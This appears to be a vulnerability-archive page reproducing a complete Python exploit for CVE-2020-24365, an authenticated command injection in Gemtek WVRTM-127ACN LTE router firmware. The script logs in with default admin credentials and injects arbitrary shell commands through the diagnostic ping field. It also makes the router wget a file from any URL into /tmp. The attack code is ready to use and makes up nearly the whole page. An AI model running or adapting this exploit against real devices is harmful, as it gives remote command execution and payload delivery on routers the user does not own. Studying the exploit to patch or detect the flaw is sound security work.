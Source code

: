 <languages /> <translate>

影響版本
--------

</translate>

    Version: 01.01.02.127, 01.01.02.141

EXP
---

    # Exploit Title: Gemtek WVRTM-127ACN 01.01.02.141 - Authenticated Arbitrary Command Injection
    # Date: 13/09/2020
    # Exploit Author: Gabriele Zuddas
    # Version: 01.01.02.127, 01.01.02.141
    # CVE : CVE-2020-24365


    Service Provider :  Linkem
    Product Name :  LTE CPE
    Model ID :  WVRTM-127ACN
    Serial ID : GMK170418011089
    IMEI :  XXXXXXXXXXXXX
    ICCID :     XXXXXXXXXXXXXXXXXX
    Firmware Version :  01.01.02.141
    Firmware Creation Date :    May 15 13:04:30 CST 2019
    Bootrom Version :   U-Boot 1.1.3
    Bootrom Creation Date :     Oct 23 2015 - 16:03:05
    LTE Support Band :  42,43


    Injecting happens here:

    sh -c (ping -4 -c 1 -s 4 -W 1 "INJECTION" > /tmp/mon_diag.log 2>&1; cmscfg -s -n mon_diag_status -v 0)&


    Exploit has been tested on older verions too:
        Firmware Version:   01.01.02.127
        Firmware Creation Date :    May 23 15:34:10 CST 2018

    """

    import requests, time, argparse, re, sys

    class Exploit():

        CVE = "CVE-2020-24365"

        def __init__(self, args):
            self.args = args
            self.session = requests.Session()

        def login(self):
            s = self.session
            r = s.post(f"http://{self.args.target}/cgi-bin/sysconf.cgi?page=login.asp&action=login", data={"user_name":self.args.username,"user_passwd":self.args.password})
            if "sid" not in s.cookies:
                print("[!] Login failed.")
                exit(1)
            sid = s.cookies["sid"]
            s.headers = {"sid": sid}
            print(f"[*] Login successful! (sid={sid})")

        def now(self):
            return int(time.time() * 1000)

        def exploit(self, command):
            self.login()

            with self.session as s:
                payload = f"http://{self.args.target}/cgi-bin/sysconf.cgi?page=ajax.asp&action=save_monitor_diagnostic&mon_diag_type=0&mon_diag_addr=$({command};)&mon_ping_num=1&mon_ping_size=4&mon_ping_timeout=1&mon_tracert_hops=&mon_diag_protocol_type=4&time={self.now()}&_={self.now()}"

                r = s.get(payload)
                r = s.get(f"http://{self.args.target}/cgi-bin/sysconf.cgi?page=ajax.asp&action=diagnostic_tools_start&notrun=1&time={self.now()}&_={self.now()}")
                content = str(r.content, "utf8")

                #Attempt to stop the command as some commands tend to get stuck (if commands stop working check on the web interface)
                r = s.get(payload)
                r = s.get(f"http://{self.args.target}/cgi-bin/sysconf.cgi?page=ajax.asp&action=diagnostic_tools_start&notrun=1&time={self.now()}&_={self.now()}")
                content = str(r.content, "utf8")

                #TODO: eventually parse content with regex to clean out the output
                c = re.findall(r"(?<=ping: bad address \')(.*)(?=\')", content)
                print(content)
                print(c[0])

                if len(c) > 0:
                    return c[0]
                else:
                    return False

        def download_file(self, url):
            filename = url.rsplit('/', 1)[-1]

            if self.args.file is not None:
                print(f"[*] Attempting download of file '{filename}' from {url} ...")

                if self.exploit(f"wget {url} -O /tmp/{filename}"):
                    print(f"[*] File saved on {self.args.target}'s /tmp/{filename}.")
                    print(self.exploit(f"du -h /tmp/{filename}"))
                    return True
                else:
                    print(f"[!] Failed to download {filename} from {url}")
                    return False

        def run(self):
            if self.args.command is not None:
                print(self.exploit(self.args.command))
                exit()
            if self.args.file is not None:
                self.download_file(self.args.file)
                exit()

    if __name__ == "__main__":
        # Create the parser and add arguments
        parser = argparse.ArgumentParser()
        parser.add_argument("-t", "--target", dest="target", default="192.168.1.1", help="Vulnerable target")
        parser.add_argument("-u", "--username", dest="username", default="admin", help="Valid username to use")
        parser.add_argument("-p", "--password", dest="password", default="admin", help="Valid password to use")
        parser.add_argument("-c", "--command", dest="command", default=None, help="Command to execute")

        parser.add_argument("-D", "--download-file", dest="file", default=None, help="Download file on target's /tmp directory")

        args = parser.parse_args()

        # Run exploit
        X = Exploit(args)
        if len(sys.argv) > 1:
            print(f"[*] Exploiting {X.CVE} ...")
            X.run()
        else:
            parser.print_help(sys.stderr)
